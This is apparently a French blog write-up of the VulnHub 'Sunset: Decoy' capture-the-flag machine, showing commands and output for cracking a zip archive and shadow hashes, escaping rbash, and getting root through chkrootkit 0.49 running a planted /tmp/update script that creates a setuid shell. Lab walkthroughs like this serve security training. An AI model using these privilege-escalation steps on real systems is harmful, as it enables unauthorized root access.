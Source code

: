 ```yaml
---
title: "Solution du CTF Sunset: Decoy VulnHub"
tags: [CTF, VulnHub]
---
```


Le CTF [Sunset: Decoy](https://vulnhub.com/entry/sunset-decoy,505/) était amusant. Certes l'escalade de privilège se base sur un logiciel déjà croisé sur d'autres CTFs mais le fait qu'on puisse pour une fois le déclencher nous même était inattendu.

Sur cette VM on a un port 80 en écoute avec un listing de fichiers présent. Il se trouve qu'il n'y a qu'une archive nommée `save.zip` qui, sans surprise, est protégée par mot de passe.

On lance donc l'habituel `zip2john` pour générer un hash que l'on casse avec l'indémodable `JtR` :

```console
$ john --wordlist=rockyou.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
manuel           (save.zip)     
1g 0:00:00:00 DONE (2023-04-08 22:20) 16.66g/s 136533p/s 136533c/s 136533C/s 123456..toodles
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

On trouve différents fichiers du système dans cette archive, mais surtout `passwd` et `shadow`.

```
Archive:  save.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     1807  2020-06-28 00:05   etc/passwd
     1111  2020-07-07 22:26   etc/shadow
      829  2020-06-27 23:40   etc/group
      669  2020-02-02 08:41   etc/sudoers
      185  2020-06-27 22:58   etc/hosts
       33  2020-06-27 23:39   etc/hostname
---------                     -------
     4634                     6 files
```

On relance donc `JtR` pour casser les hashes des utilisateurs et on obtient rapidement le mot de passe `server` pour l'utilisateur `296640a3b825115a47b68fc44501c828`.

Sans surprise à la connexion, on se retrouve face à un `rbash` (qu'on pouvait voir dans la ligne du fichier `passwd` pour cet utilisateur) :

```console
$ ssh 296640a3b825115a47b68fc44501c828@192.168.56.164
296640a3b825115a47b68fc44501c828@192.168.56.164's password: 
Linux 60832e9f188106ec5bcc4eb7709ce592 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul  7 16:45:50 2020 from 192.168.1.162
-rbash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls
honeypot.decoy  honeypot.decoy.cpp  id  ifconfig  ls  mkdir  SV-502  user.txt
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat user.txt
-rbash: cat: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo $PATH
PATH:/home/296640a3b825115a47b68fc44501c828/
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ export PATH=/usr/local/bin:/usr/bin:/bin:/sbin:/usr/sbin:/home/296640a3b825115a47b68fc44501c828/
-rbash: PATH: readonly variable
```

`rbash` est un shell restreint. Ici on voit qu'il ne nous permet que d'exécuter les binaires présents dans le dossier courant.

On va donc le prendre au pied de la lettre. Pour cela je me sers de `scp` pour copier `/bin/bash` sur ma machine puis dans le sens inverse de ma machine vers le dossier de l'utilisateur.

Il me suffit alors d'appeler `bash` et de corriger le `PATH`. Ce `rbash` est désormais de l'histoire ancienne.

Il y a un binaire custom dont on ne peut lire le code source :

```
-rwxr-xr-x 1 root                             root                               17480 Jul  7  2020 honeypot.decoy
-rw------- 1 root                             root                                1855 Jul  7  2020 honeypot.decoy.cpp
```

Toutefois, on peut se faire une petite idée de son utilité en regardant dans le binaire (commande `strings`) :

```
libc.so.6
__cxa_atexit
system
__cxa_finalize
__libc_start_main
GLIBCXX_3.4
GLIBC_2.2.5
u/UH
[]A\A]A^A_
Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.
Option selected:
No available option was selected. Ending program.
/usr/bin/date
/usr/bin/cal
Shutdown is currently not available due to not enough privileges. Ending program.
Rebooting is currently not available due to not enough privileges. Ending program.
/usr/bin/touch /dev/shm/STTY5246
The AV Scan will be launched in a minute or less.
/usr/bin/cat /etc/passwd
/usr/bin/vi /tmp/cmFuZG9tc2Zvc2FuZm9kYW52cw==
/usr/sbin/service apache2 status
```

Le programme n'étant pas setuid, il semble peu intéressant pour le moment.

Dans le dossier `SV-502` je trouve un fichier `log.txt` qui correspond à un output de l'outil de surveillance de processus `pspy`.

La ligne la plus intéressante est la mention de c`hkrootkit 0.49` :

```
2020/06/27 18:56:58 CMD: UID=0    PID=12386  | tar -xvzf chkrootkit-0.49.tar.gz
```

J'ai exploité ce programme vulnérable notamment sur le CTF [Fuku]({% link _posts/2023-01-04-Solution-du-CTF-SecTalks-BNE0x02-Fuku-de-VulnHub.md %}).

L'idée est de placer un script nommé `update` qui sera exécuté lorsque `chkrootkit` est appelé. J'ai donc édité le même script que les dernières fois.

```console
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ vi /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ chmod 755 /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat /tmp/update
#!/bin/bash
cp /usr/bin/dash /tmp/devloop_was_here
chmod 4755 /tmp/devloop_was_here
```

Mais après quelques minutes, nada.... C'est sans doute le moment d'utiliser le binaire vu plus tôt :

```console
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./honeypot.decoy 
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:5

The AV Scan will be launched in a minute or less.
--------------------------------------------------
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls /dev/shm/STTY5246
/dev/shm/STTY5246
```

L'option 5 a visiblement provoqué la création du fichier `/dev/shm/STTY5246`.

Et cette fois `chkrootkit` a bien été lancé, nous ouvrant la porte du compte root :

```console
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls -al /tmp/devloop_was_here
-rwsr-xr-x 1 root root 121464 Apr  8 16:51 /tmp/devloop_was_here
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ /tmp/devloop_was_here -p
# id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) euid=0(root) groups=1000(296640a3b825115a47b68fc44501c828)
# cd /root
# ls
chkrootkit-0.49  chkrootkit-0.49.tar.gz  log.txt  pspy  root.txt  script.sh
# cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_


1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
```

Le script qui était lancé par la crontab est le suivant :

```bash
FILE=/dev/shm/STTY5246
if test -f "$FILE"; then
    /root/chkrootkit-0.49/chkrootkit
else
    echo "An AV scan will not be launched."
fi
```
